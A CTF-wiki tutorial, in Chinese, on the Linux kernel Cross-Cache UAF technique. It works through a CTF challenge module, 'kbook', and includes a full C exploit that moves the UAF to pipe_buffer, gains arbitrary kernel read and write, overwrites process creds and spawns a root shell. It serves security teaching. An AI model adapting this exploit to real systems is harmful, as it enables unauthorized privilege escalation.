

# Cross-Cache UAF

## 简介

Cross-Cache UAF 又称作 Cross-Cache attack，在这个场景下我们通常拥有对某个特定内核对象的 UAF，但该对象本身及与其来自相同 `kmem_cache` 的内核对象都不具有足够的使得我们可以完成内核利用的能力，此时我们就可以考虑将其对应的 SLUB page 释放回 buddy system，再在另外一个 `kmem_cache` 上做堆喷将该 SLUB page 取回，从而将 UAF 漏洞迁移到另一种内核对象上。

这通常遵循如下攻击范式（**存在一些变体，但本质原理与思想相同**）：

- 首先分配大量来自于同一 `kmem_cache` 的附属对象，其中最后一批分配的对象（称为 `Object Set A`）来自于同一张 SLUB page（称为 `Page S`）
- 接下来分配漏洞对象 `victim` ，与上面的对象一同来自于 `Page S`
- 接下来分配大量来自于同一 `kmem_cache` 的附属对象，其中开头分配的一批对象（称为 `Object Set B`）与上面的对象一同来自于 `Page S`
- 释放大量附属对象，填充满 `cpu->partial` 与 `node->partial`，最后一批释放 `Object Set A`、`victim`、`Object Set B`，从而使得 `Page S` 回到 buddy system
- 在目标 `kmem_cache` 上进行堆喷，使其从 buddy system 分配 `Page S` 作为其 SLUB page
- 利用 UAF 漏洞进行攻击，具体取决于漏洞权能（如 Double Free、UAF 读写等）

存在另一个常用变体：

- 首先分配大量来自于同一 `kmem_cache` 的附属对象，选取其中一批来自于同一张 SLUB page（称为 `Page S`）的对象作为攻击目标（称为 `Object Set A`）
- 接下来释放 `Object Set A` 当中的一个对象，从而在 `Page S` 中创造出一个 Free Slot
- 接下来分配漏洞对象 `victim` ，占用这一个 Free Slot
- 释放大量附属对象，填充满 `cpu->partial` 与 `node->partial`，最后一批释放 `Object Set A`、`victim`，从而使得 `Page S` 回到 buddy system
- 在目标 `kmem_cache` 上进行堆喷，使其从 buddy system 分配 `Page S` 作为其 SLUB page
- 利用 UAF 漏洞进行攻击，具体取决于漏洞权能（如 Double Free、UAF 读写等）

这里我们使用 [DirtyCred](https://dl.acm.org/doi/pdf/10.1145/3548606.3560585) 论文中的图片作为示例：



## 例题： kbook

> 23 年给某个比赛供的题目，据说最后是 0 解，但是笔者当年忘了问收题的人比赛名字叫啥了，遇到过这道题目的同学可以在 issue 界面告诉笔者，好让笔者修改这一段前缀说明：）

题目附件可在 [https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/Unknown2023-kbook](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/kernel-mode/Unknown2023-kbook) 下载。

### 题目分析

题目给了一个 `kbook.ko` ，允许用户获取“书籍”并写入“页面”，一共有 0x20 本“书”，每本“书”有 0x20 个“页面”，每个“页面”大小为 1024,分配于独立的 `kmem_cache` 中

漏洞存在于释放页面时未清空指针从而造成 UAF，导致可以对已释放的页面进行读写：

```c
__int64 __fastcall kbook_ioctl(__int64 a1, int a2, unsigned __int64 a3)
{
  void *v4; // rdi
  _QWORD *v5; // rax
  void *v6; // rdi
  __int64 v7; // rax
  unsigned __int64 *v8; // rax
  __int64 v9; // rbx

  raw_spin_lock(&kbook_cmd_lock);
  if ( a2 == 0x1919810 )
  {
    if ( a3 >= 0x20 )
    {
LABEL_12:
      v4 = &unk_7DC;
      goto LABEL_21;
    }
    v5 = *(_QWORD **)(a1 + 200);
    if ( v5 )
    {
      if ( bookshelf[33 * *v5 + a3] )
        kfree();
      v6 = &unk_82C;
      goto LABEL_23;
    }
LABEL_15:
    v4 = &unk_6B4;
    goto LABEL_21;
  }
  if ( a2 == 0x514 )
  {
    if ( a3 >= 0x20 )
      goto LABEL_12;
    v7 = *(_QWORD *)(a1 + 200);
    if ( v7 )
    {
      *(_QWORD *)(v7 + 8) = a3;
      v6 = &unk_7FF;
LABEL_23:
      printk(v6);
      goto LABEL_24;
    }
    goto LABEL_15;
  }
  if ( a2 != 0x114 )
  {
    printk(&unk_85B);
LABEL_24:
    v9 = 0LL;
    goto LABEL_25;
  }
  if ( a3 >= 0x20 )
  {
    v4 = &unk_744;
LABEL_21:
    printk(v4);
    v9 = -1LL;
    goto LABEL_25;
  }
  if ( *(_QWORD *)(a1 + 200) )
  {
    v4 = &unk_767;
    goto LABEL_21;
  }
  v8 = (unsigned __int64 *)kmalloc_trace(kmalloc_caches[4], 0xCC0LL, 16LL);
  if ( v8 )
  {
    *v8 = a3;
    v8[1] = 0LL;
    *(_QWORD *)(a1 + 200) = v8;
    v6 = &unk_7AF;
    goto LABEL_23;
  }
  printk(&unk_68B);
  v9 = -12LL;
LABEL_25:
  raw_spin_unlock(&kbook_cmd_lock);
  return v9;
}
```

### 漏洞利用

由于题目本身分配自独立的 `kmem_cache` ，因此我们考虑通过 cross-cache attack 将 UAF 漏洞迁移到常用的 `kmem_cache` 上进行利用，这里我们选择迁移到 `pipe_buffer` 上进行攻击：

- 首先大量分配“页面”，之后将其释放，从而使得独立 `kmem_cache` 中空闲页面回到 buddy system,这里注意需要多次打开设备节点以获取多个“书籍”（因为每本书仅有 0x20 的页面）
- 接下来利用 `fcntl()` 重新分配 `pipe_buffer` ，从而使得我们能够将 UAF 转移到 `pipe_buffer` 上
- 利用题目功能多次修改 `pipe_buffer` 在内存中搜索当前进程的 `task_struct` 并修改 cred 以完成提权

完整 exp 如下：

```c
/**
 * Copyright (c) 2023 arttnba3 <arttnba@gmail.com>
 * 
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
**/

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdint.h>
#include <sched.h>
#include <errno.h>
#include <string.h>
#include <sys/ioctl.h>
#include <sys/msg.h>
#include <sys/ipc.h>
#include <sys/socket.h>
#include <sys/prctl.h>

/**
 * I - fundamental functions
 * e.g. CPU-core binder, user-status saver, etc.
 */

size_t kernel_base = 0xffffffff81000000, kernel_offset = 0;
size_t page_offset_base = 0xffff888000000000, vmemmap_base = 0xffffea0000000000;
size_t init_task, init_nsproxy, init_cred;

void err_exit(char *msg)
{
    printf("\033[31m\033[1m[x] Error at: \033[0m%s\n", msg);
    sleep(5);
    exit(EXIT_FAILURE);
}

/* root checker and shell poper */
void get_root_shell(void)
{
    puts("[*] checking for root...");

    if(getuid()) {
        puts("\033[31m\033[1m[x] Failed to get the root!\033[0m");
        sleep(5);
        exit(EXIT_FAILURE);
    }

    puts("\033[32m\033[1m[+] Successful to get the root. \033[0m");
    puts("\033[34m\033[1m[*] Execve root shell now...\033[0m");
    
    system("/bin/sh");
    
    /* to exit the process normally, instead of segmentation fault */
    exit(EXIT_SUCCESS);
}

/* bind the process to specific core */
void bind_core(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);

    printf("\033[34m\033[1m[*] Process binded to core \033[0m%d\n", core);
}


struct page;
struct pipe_inode_info;
struct pipe_buf_operations;

/* read start from len to offset, write start from offset */
struct pipe_buffer {
	struct page *page;
	unsigned int offset, len;
	const struct pipe_buf_operations *ops;
	unsigned int flags;
	unsigned long private;
};

struct pipe_buf_operations {
    int (*confirm)(struct pipe_inode_info *, struct pipe_buffer *);
    void (*release)(struct pipe_inode_info *, struct pipe_buffer *);
    int (*try_steal)(struct pipe_inode_info *, struct pipe_buffer *);
    int (*get)(struct pipe_inode_info *, struct pipe_buffer *);
};

/**
 * II - interface to interact with challenge
 */

#define MAX_BOOK_NR 0x20
#define MAX_PAGE_BOOK_NR 0x20
#define PAPER_SZ 2048

int bookshelf[MAX_BOOK_NR];

#define CMD_CHOOSE_BOOK 0x114
#define CMD_SET_PAGE    0x514
#define CMD_DELETE_PAGE 0x1919810

long choose_book(int fd, size_t idx)
{
    return ioctl(fd, CMD_CHOOSE_BOOK, idx);
}

long set_page(int fd, size_t idx)
{
    return ioctl(fd, CMD_SET_PAGE, idx);
}

long delete_page(int fd, size_t idx)
{
    return ioctl(fd, CMD_DELETE_PAGE, idx);
}

/**
 *  III - FIRST exploit stage: transfer UAF to pipe_buffer by page reuse
*/

#define ANON_PIPE_OPS 0xffffffff8241ccc8

#define PIPE_SPRAY_NR 480

int book_idx = -1, page_idx = -1;
int pipe_fd[PIPE_SPRAY_NR][2], orig_idx = -1, victim_idx = -1;

struct pipe_buf_operations *pipe_ops;
size_t page_leak;

void prepare_pipe(void)
{
    puts("[*] Prepare pipe...");

    for (int i = 0; i < PIPE_SPRAY_NR; i++) {
        if (pipe(pipe_fd[i]) < 0) {
            printf("[x] FAILED to create %d pipe!\n", i);
            err_exit("FAILED to allocate pipe.");
        }
    }

    for (int i = 0; i < PIPE_SPRAY_NR; i++) {
        write(pipe_fd[i][1], &i, sizeof(i));
        write(pipe_fd[i][1], &i, sizeof(i));
        write(pipe_fd[i][1], &i, sizeof(i));
    }

    for (int i = 0; i < PIPE_SPRAY_NR; i++) {
        if (fcntl(pipe_fd[i][0], F_SETPIPE_SZ, 0x1000 * 4) < 0) {
            perror("failed to reset pipe_size");
            err_exit("FAILED to realloc pipe_buffer!");
        }
    }
}

void init_bookshelf(void)
{
    puts("[*] Allocating and writing books...");

    for (int i = 0; i < MAX_BOOK_NR; i++) {
        bookshelf[i] = open("/dev/kbook", O_RDWR);
        if (bookshelf[i] < 0) {
            perror("failed to open /dev/kbook");
            err_exit("FAILED at opening dev node!");
        }

        if (choose_book(bookshelf[i], i) < 0) {
            err_exit("FAILED at binding the book with fd!");
        }

        for (int j = 0; j < MAX_PAGE_BOOK_NR; j++) {
            if (set_page(bookshelf[i], j) < 0) {
                err_exit("FAILED at setting the page for book!");
            }

            if (write(bookshelf[i], "arttnba3", 8) < 0) {
                err_exit("FAILED at writing the book!");
            }
        }
    }

    puts("[*] Releasing book pages...");
    for (int i = 0; i < MAX_BOOK_NR; i++) {
        for (int j = 0; j < MAX_PAGE_BOOK_NR; j++) {
            if (delete_page(bookshelf[i], j) < 0) {
                err_exit("FAILED at releasing the page!");
            }
        }
    }
}

void construct_uaf_on_pipe_buffer(void)
{
    size_t buf[0x1000];
    puts("[*] Realloc pipe_buffer...");

    for (int i = 0; i < PIPE_SPRAY_NR; i++) {
        if (fcntl(pipe_fd[i][0], F_SETPIPE_SZ, 0x1000 * 32) < 0) {
            perror("failed to reset pipe_size");
            err_exit("FAILED to realloc pipe_buffer!");
        }
    }

    puts("[*] Checking for UAF...");

    for (int i = 0; i < MAX_BOOK_NR; i++) {
        for (int j = 0; j < MAX_PAGE_BOOK_NR; j++) {
            if (set_page(bookshelf[i], j)) {
                err_exit("FAILED at setting the page for book!");
            }

            if (read(bookshelf[i], buf, 0x100) < 0) {
                err_exit("FAILED at reading the book!");
            }

            if (buf[0] != *(size_t*) "arttnba3" && buf[2] > 0xffffffff81000000){
                book_idx = i;
                page_idx = j;
                goto out;
            }
        }
    }

out:
    if (book_idx < 0 || page_idx < 0) {
        err_exit("FAILED to transfer UAF to pipe_buffer!");
    }

    page_leak = buf[0];
    pipe_ops = (struct pipe_buf_operations*) buf[2];
    kernel_offset = buf[2] - ANON_PIPE_OPS;
    kernel_base = 0xffffffff81000000 + kernel_offset;

    printf("\033[32m\033[1m[*] Successfully make UAF on pipe_buffer with "
            "book \033[0m%d\033[32m\033[1m, page \033[0m%d\n", 
            book_idx, page_idx);
    printf("[*] Leak page addr: %lx\n", page_leak);
    printf("[*] Leak pipe_buf_ops: %p\n", pipe_ops);
    printf("\033[32m\033[1m[+] Successfully get kernel base: \033[0m%lx, "
           "\033[32m\033[1moffset: \033[0m%lx.\n",
           kernel_base,
           kernel_offset);
}

/**
 *  IV - SECOND exploit stage: overwrite the task_struct to root
*/

void find_uaf_pipe(void)
{
    size_t new_page = page_leak + 0x40;

    puts("[*] Overwriting pipe_buffer and seeking the UAF pipe...");

    write(bookshelf[book_idx], &new_page, sizeof(new_page));

    for (int i = 0; i < PIPE_SPRAY_NR; i++) {
        int nr;

        read(pipe_fd[i][0], &nr, sizeof(nr));
        if (nr != i) {
            orig_idx = nr;
            victim_idx = i;
            break;
        }
    }

    puts("[*] Checking for UAF pipe...");
    if (orig_idx < 0 || victim_idx < 0) {
        err_exit("FAILED to construct UAF on pipe!");
    }

    puts("[+] Successfully made UAF on pipe_buffer!");
    printf("[+] Original: %d, victim: %d\n", orig_idx, victim_idx);
}

void arbitrary_read_by_pipe(size_t page_addr, void *buf)
{
    struct pipe_buffer *fake_buf;
    size_t data[0x1000];

    read(bookshelf[book_idx], data, sizeof(*fake_buf));
    fake_buf = (struct pipe_buffer*) data;

    fake_buf->page = (struct page*) page_addr;
    fake_buf->len = 0x1ff8;
    fake_buf->offset = 0;
    fake_buf->ops = pipe_ops;

    write(bookshelf[book_idx], data, sizeof(*fake_buf));

    read(pipe_fd[victim_idx][0], buf, 0xfff);
}

void arbitrary_write_by_pipe(size_t page_addr, void *buf, size_t len)
{
    struct pipe_buffer *fake_buf;
    size_t data[0x1000];

    read(bookshelf[book_idx], data, sizeof(*fake_buf));
    fake_buf = (struct pipe_buffer*) data;

    fake_buf->page = (struct page*) page_addr;
    fake_buf->len = 0;
    fake_buf->offset = 0;
    fake_buf->ops = pipe_ops;

    write(bookshelf[book_idx], data, sizeof(*fake_buf));

    write(pipe_fd[victim_idx][1], buf, len > 0xffe ? 0xffe : len);
}

void seeking_vmemmap_base(void)
{
    size_t seek_page, buf[0x1000];

    printf("[*] Start reading back from %lx...\n", page_leak);
    for (seek_page = page_leak; ; seek_page -= 0x40) {
        arbitrary_read_by_pipe(seek_page, buf);
        if (buf[0] == (kernel_base + 0x60)) {
            vmemmap_base = seek_page - (0x9d000 / 0x1000) * 0x40;
            break;
        }
    }

    if (vmemmap_base == 0xffffea0000000000) {
        err_exit("ARE YOU KIDDING ME?");
    }

    printf("\033[32m\033[1m[+] Get vmemmap_base: \033[0m%lx\n", vmemmap_base);
}

#define INIT_CRED 0xffffffff82c4e3b8

size_t current_pcb_page;
size_t data_buf[0x1000];

void privilege_escalation_by_task_overwrite(void)
{
    size_t  *comm_addr;

    puts("[*] Seeking task_struct in memory...");

    prctl(PR_SET_NAME, "arttnba3pwnn");

    for (int i = 0; 1; i++) {
        arbitrary_read_by_pipe(vmemmap_base + i * 0x40, data_buf);
    
        comm_addr = memmem(data_buf, 0xf00, "arttnba3pwnn", 12);
        if (comm_addr && (comm_addr[-2] > 0xffff888000000000) /* task->cred */
            && (comm_addr[-3] > 0xffff888000000000)) {  /* task->real_cred */
            current_pcb_page = vmemmap_base + i * 0x40;
            printf("\033[32m\033[1m[+] Found task_struct on page: \033[0m%lx\n",
                   current_pcb_page);
            break;
        }
    }

    puts("[*] Starting privilege escalation by overwriting task_struct...");
    comm_addr[-2] = INIT_CRED + kernel_offset;
    comm_addr[-3] = INIT_CRED + kernel_offset;
    arbitrary_write_by_pipe(current_pcb_page, data_buf, 0x1000);
}

int main(int argc, char **argv, char **envp)
{
    bind_core(0);

    /* stage-I */
    prepare_pipe();
    init_bookshelf();
    construct_uaf_on_pipe_buffer();

    /* stage-II */
    find_uaf_pipe();
    seeking_vmemmap_base();
    privilege_escalation_by_task_overwrite();

    get_root_shell();

    return 0;
}

```